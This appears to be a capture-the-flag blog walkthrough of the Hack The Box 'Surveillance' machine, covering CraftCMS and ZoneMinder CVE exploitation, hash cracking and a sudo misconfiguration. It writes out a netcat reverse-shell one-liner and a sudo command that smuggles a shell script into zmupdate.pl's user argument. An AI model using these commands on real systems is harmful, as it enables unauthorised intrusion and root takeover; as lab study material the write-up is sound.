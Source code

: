 ```yaml
---
layout: post
title: "HTB Surveillance: Walkthrough"
date: 2024-11-18 10:00:00 +0000
categories: [HTB]
tags: [HTB, CVE, Sudo, Port Forwarding]
image:
  path: https://raw.githubusercontent.com/partyh4t/partyh4t.github.io/refs/heads/main/assets/posts/Headers/HTB.png
---
```


![image](https://github.com/user-attachments/assets/51ff08a4-0cf0-4452-90c9-98c0f45d4cf3)

We start off with exploiting a CVE in a vulnerable CraftCMS running on the target webserver. This is then followed by a series of 3 privilege escalations. The first requiring us to download a backup SQL db `.zip` file containing an old users hash, which we can crack to gain SSH into the machine. The second involves another CVE on a `ZoneMinder` instance running on the targets localhost. Finally, we can abuse a misconfiguraton in our sudo privileges to gain access as the root user. 

## 0) Machine Overview
1. [Scans](#1-scans)
2. [Web Enumeration](#2-web-enumeration)
4. [Privilege Escalation](#3-privilege-escalation)
5. [Privilege Escalation 2](#4-privilege-escalation-2)
6. [Privilege Escalation 3](#5-privilege-escalation-3)


### 1) Scans

```
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 96:07:1c:c6:77:3e:07:a0:cc:6f:24:19:74:4d:57:0b (ECDSA)
|_  256 0b:a4:c0:cf:e2:3b:95:ae:f6:f5:df:7d:0c:88:d6:ce (ED25519)

80/tcp   open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Did not follow redirect to http://surveillance.htb/

8181/tcp open  http    SimpleHTTPServer 0.6 (Python 3.10.12)

8888/tcp open  http    SimpleHTTPServer 0.6 (Python 3.10.12)
Aggressive OS guesses: Linux 5.0 (96%), Linux 4.15 - 5.8 (96%), Linux 5.3 - 5.4 (95%), Linux 2.6.32 (95%), Linux 5.0 - 5.5 (95%), Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (95%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%)
```


## 2) Web Enumeration

Seems we're dealing with CraftCMS:

![image](https://github.com/user-attachments/assets/dde079b4-381f-43ce-8ae1-50cacb407155)


With a bit of research, we come across a [PoC](https://gist.github.com/to016/b796ca3275fa11b5ab9594b1522f7226
) for a CVE that happened recently.

If we exploit it using this script, we're able to get a "web-shell". (Just to note, you'll have to have Burpsuite running as the exploit connect to your proxy at first for this script to work.)

![image](https://github.com/user-attachments/assets/0310a88c-5d84-4377-89fb-b2bc6d41ab78)

Now that we're in, we need to find a way to leverage this web-shell to get a full reverse shell or an SSH connection. 

After various attempts to catch the shell, this command worked the best, giving us a very nice shell.
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.10.14.14 4444 >/tmp/f
```
![image](https://github.com/user-attachments/assets/8def25ae-0984-4f66-8fb6-a8727306224f)

## 3) Privilege Escalation

Now to privilege escalate.

Now before I try loading `linPEAS` or anything like that onto the machine, I like to manually enumerate a little bit and check for low-hanging fruit and look through config files.

- No interesting SUID files.
- Cant access any of the other users home directories.
- We have 2 users with home directories.
  
![image](https://github.com/user-attachments/assets/d07fd683-6660-42a5-9846-b881942e7909)

Lets start looking through the CMS files and see if we can find anything interesting....

![image](https://github.com/user-attachments/assets/23a6d9fe-328e-4484-9340-80c998dbacc1)

Hmm a `.env` file. Thats definitely interesting.

![image](https://github.com/user-attachments/assets/5ccce8c0-2707-4da5-9cf1-d3a77542fc43)


Seems theres a MySQL DB running on the host.. and potentially another webserver on port 8080? We'll have to check that out afterwards, maybe through a portforward.

![image](https://github.com/user-attachments/assets/417449fb-1002-4cad-8d3a-392dd3003ed8)

I tried connecting to the DB, but it basically just kept hanging every time. So I just decided to upload a `metty.elf` file and get a meterpreter shell.

![image](https://github.com/user-attachments/assets/b5018a3b-fc4a-4744-baf3-aa4df1cbc262)

Now we are able to successfully access the DB.

![image](https://github.com/user-attachments/assets/d786e72b-834b-4b02-85f7-87ca2094357d)

![image](https://github.com/user-attachments/assets/fc56c864-00a2-43fc-bd25-5d65e96130af)

![image](https://github.com/user-attachments/assets/479286b0-5e4d-4441-972f-52317aa4cf45)

As we can see, there is a `bcrypt` hash belonging to the admin user, who also seems to be Matthew. Lets try hacking that hash offline, although I'm not too confident.

After a while of trying to crack it, it seems like this wasn't the intended route.

After some more enumeration, we find a backup `.zip` file.

![image](https://github.com/user-attachments/assets/3f4e8c25-9731-4767-b891-85ed490b8028)

Lets take that offline and take a look.

![image](https://github.com/user-attachments/assets/b8f90219-f837-4db0-be3a-bf217f2326d0)

Jackpot. Another hash for Matthew, which seems to be SHA-256. Now to crack it.

![image](https://github.com/user-attachments/assets/b9a300b0-f08c-4870-bc89-3e0c7ab87d52)

Lets try SSHing into the machine as matthew.

![image](https://github.com/user-attachments/assets/63b26603-fdc0-4447-8545-2dd7f91e765f)

![image](https://github.com/user-attachments/assets/b52f28ed-47dd-42d3-9794-643da79160dd)

## 4) Privilege Escalation 2

Now that we're on matthew, we can again check for low-hanging fruit. In this case, I didn't find any in this case, so lets run `linpeas`.

![image](https://github.com/user-attachments/assets/cb4f81ed-cd1b-440c-b054-d6d6d7364dff)

Interesting. I checked GTFOBins to see if there was a quick win, as I'm not that familiar with abusing capabilities.

![image](https://github.com/user-attachments/assets/aaaae3c0-8ff7-4355-9a67-733a1e3a302b)

Lets give it a try:

![image](https://github.com/user-attachments/assets/3d6cc604-66b8-4c29-acd0-ab33422c6273)

So it seems like because the python3 file is owned by `zoneminder`, we cant run it unless we are that user. _(Note: I'm writing this after completing the box. I think that the reason it didn't work was because that capability is basically like a SUID, and because the file is owned by zoneminder. Either way, I tried to specify the UID of zoneminder's, but it kept giving me access denied.)_

One other thing to note is that, in our linpeas output, it mentions something about that server running on 8080.

![image](https://github.com/user-attachments/assets/ccd58c3e-bfe0-4859-a2af-88a3b5049089)

Seems like its running PHP within an nginx webserver. Lets port forward now. (This command will allow us to access port 8080 on our local machines port 1234)

![image](https://github.com/user-attachments/assets/3c5db412-66dd-4a85-ade2-3c8acf7ae740)

![image](https://github.com/user-attachments/assets/de018b9d-523e-4b25-8967-b9c14aff08f6)

Now if we go back and look at the zoneminder.conf file a little more, we'll notice that the webroot is at:

![image](https://github.com/user-attachments/assets/f1cb747c-8d1b-412a-963e-5f6787567b5a)

Interesting, lets check out that `db` folder.

![image](https://github.com/user-attachments/assets/051fdb71-95f7-4f18-91cb-a76da4816f5d)

So it seems its showing a list of version updates that were made to the zoneminder application. Seems like its currently running `v1.36.9` or some version along those lines. Lets check for a CVE.

![image](https://github.com/user-attachments/assets/02e64d67-59a7-499f-bcaa-ef45807846cf)

Looks like our version would fall within that range, so we can try looking for a PoC, which in this case, there happen to be a few, so I'll be using [this](https://github.com/rvizx/CVE-2023-26035/tree/main) one.

![image](https://github.com/user-attachments/assets/88f500bb-345c-4220-825e-4517e9b0b431)

![image](https://github.com/user-attachments/assets/5c9ff9ee-c96b-44ce-8d96-2135de2543ea)

## 5) Privilege Escalation 3

Now that we're zoneminder, our final goal is close within reach. We can run a quick `sudo -l` and see if there is a quick win, hopefully without requiring a password.

![image](https://github.com/user-attachments/assets/3d8ee58d-48ee-4893-b7f0-78030ae951e0)

So after quite a bit of research and messing with the various `zm*.pl` files there are, we can leverage `zmupdate.pl` to basically pass a script to get executed as the username in one of the command parameters, and we'll need to use a password that we can find in a database.php file: (Note: don't think the password is actually needed for this exploit)

![image](https://github.com/user-attachments/assets/67c36cf1-dc2e-45ca-bafa-42b486092abf)

So the final command will look like this:
```
sudo /usr/bin/zmupdate.pl --version=1 --user='$(/tmp/revshell.sh)' --pass=ZoneMinderPassword2023
```

I had to try multiple reverse shells, the one that worked for me was:
`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.10.14.14 5555 >/tmp/f`

![image](https://github.com/user-attachments/assets/e0602271-165d-45c0-a0c3-3caa3c2b334f)



